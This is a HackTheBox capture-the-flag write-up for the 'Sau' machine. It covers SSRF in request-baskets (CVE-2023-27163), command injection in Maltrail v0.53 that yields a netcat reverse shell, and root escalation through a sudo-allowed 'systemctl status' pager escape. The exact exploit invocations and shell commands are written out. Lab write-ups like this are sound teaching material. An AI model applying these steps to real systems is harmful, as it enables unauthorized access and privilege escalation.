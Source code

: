 ```yaml
---
layout: post
title: Sau - Hackthebox
date: 2023-09-28 21:52 +0100
categories:
- Writeups
- Hackthebox
tags:
- SSRF
- Linux
- CVE-2023-27163
- request-baskets
- Maltrail
- Command Injection
- systemctl
img_path: "/assets/img/sau"
image:
  path: machine_img.png
  alt: sau
---
```


## Recon

We found ports 22, 80 and 55555 running on the target machine using `nmap -sC -sV -oN nmap_scan IP`.
Port 55555 seems to be running a web application and port 80 can't be reached.

```

PORT      STATE    SERVICE VERSION                                                            
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                      
| ssh-hostkey:                                                                                
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)                                               
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)                                              
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)                                            
80/tcp    filtered http                                                                       
55555/tcp open     unknown                                                                    
| fingerprint-strings:                                                                        
|   FourOhFourRequest:                                                                        
|     HTTP/1.0 400 Bad Request                                                                
|     Content-Type: text/plain; charset=utf-8                                                 
|     X-Content-Type-Options: nosniff                                                         
|     Date: Thu, 28 Sep 2023 17:47:30 GMT                                                     
|     Content-Length: 75                                                                      
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$                 
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request                                                                
|     Content-Type: text/plain; charset=utf-8                                                 
|     Connection: close                                                                       
|     Request                                                                                 
|   GetRequest:                                                                               
|     HTTP/1.0 302 Found                                                                      
|     Content-Type: text/html; charset=utf-8                                                  
|     Location: /web                                                                          
|     Date: Thu, 28 Sep 2023 17:47:02 GMT                                                     
|     Content-Length: 27                                                                      
|     href="/web">Found</a>.                                                                  
|   HTTPOptions:                                                                              
|     HTTP/1.0 200 OK                                                                         
|     Allow: GET, OPTIONS                                                                     
|     Date: Thu, 28 Sep 2023 17:47:03 GMT                                                                                    
|_    Content-Length: 0  


```

It seems like a web application that allow us to inspect http requests called requests-basket and has a github repo: https://github.com/darklynx/request-baskets. It is in the version 1.2.1.

![](port_55555.png)

Looking for exploits for that service(request-baskets) and that version(1.2.1) we found the CVE-2023-27163:

- https://www.exploit-db.com/exploits/51675
- https://github.com/entr0pie/CVE-2023-27163
- https://nvd.nist.gov/vuln/detail/CVE-2023-27163

This vulnerability is a [Server Side Request Forger]y(https://portswigger.net/web-security/ssrf) which allow us to make requests to internal hosts not exposed, as if we were the vulnerable server.

We run the script present in the [repo](https://github.com/entr0pie/CVE-2023-27163):

```shell
./CVE-2023-27163.sh http://10.10.11.224:55555 http://localhost:80
```

![](ssrf.png)

This script will create a proxy basket as if it is the internal service. This means that, the generated basket, for example, http://10.10.11.224:55555/zwnush/ will be the same as accessing the machine port 80, http://localhost:80. Note: The CSV and javascript is not loaded because it tries to load from the basket and it does not have it.


## Foothold

The service that it seems running in the port 80 seems like the service Maltrail in the version (v0.53).
The searching for an exploit for that version in Google, the first link takes us to an [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) that gives us OS command injection.

We open a netcat listener `nc -lvnp 1234` and use the exploit `python3 exploit.py 10.10.14.199 1234 http://10.10.11.224:55555/zwnush/login` targeting the login page of maltrail. We get a shell as the user puma and looking in the passwd file we are the only normal user besides root. Home directory gives us the first flag.

![](login.png)


## Privilege Escalation

Here we want to try to upgrade to a more [interactive shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
To do it, we first check for the presence of python in the machine with `which python3` then:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
(CTRL + Z)
stty raw -echo 
(ENTER)
fg
(ENTER)
(ENTER)
export TERM=tmux-256color
```

To have a better coverage of what we can do in the machine as the user puma we send [linpeas](https://linpeas.sh/) to the target machine and execute it.
We found an unusual entry in sudoers file:

```shell
User puma may run the following commands on sau:                                                                                                                                              
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```

This allow us to get the status of service running in the machine. However as explain in the [blog](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/) systemctl status uses a pager to show the output of the service. The pager allows to run commands if we type a exclamation mark: `!whoami`. In our case, since we are running the command already as root, `sudo /usr/bin/systemctl status trail.service`, we just do `!sh` and we get a shell inside pager as root and get the root flag.

